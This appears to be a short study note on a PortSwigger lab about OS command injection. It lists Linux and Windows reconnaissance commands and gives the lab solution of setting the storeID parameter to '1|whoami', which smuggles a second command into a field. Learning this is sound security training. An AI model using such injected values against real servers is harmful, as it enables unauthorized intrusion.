 ```yaml
---
title: 'OS command injection'
author: Abdullah Ahmed H
date: '3-12-2024'
image:
    url: '/portswigger_logo.webp'
    alt: 'Portswigger'
---
```


OS command injection is also known as shell injection. It allows the attacker to compromise the OS the server is running on. This also attempts to exploit the implicit trust within the server. 
Some commands that come in handy are:

<table border="1">
    <thead>
        <tr>
            <th> Purpose of Command </th>
            <th> Linux </th>
            <th> Windows </th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Name of current user</td>
            <td>whoami</td>
            <td>whoami</td>
        </tr>
        <tr>
            <td>Operating system</td>
            <td>uname -a</td>
            <td>ver</td>
        </tr>
        <tr>
            <td>Network configuration</td>
            <td>ifconfig</td>
            <td>ipconfig /all</td>
        </tr>
        <tr>
            <td>Network connections</td>
            <td>netstat -an</td>
            <td>netstat -an</td>
        </tr>
        <tr>
            <td>Running processes</td>
            <td>ps -ef</td>
            <td>tasklist</td>
        </tr>
    </tbody>
</table>
<br>

**Lab** : Change the storeID parameter to 1|whoami to get current user.

<a href="/posts/portswigger/5" style="display: inline-block; float: left;">
    <button class="btn">File upload vulnerabilities</button>
</a>
<a href="/posts/portswigger/7" style="display: inline-block; float: right;">
    <button class="btn">SQL injection</button>
</a>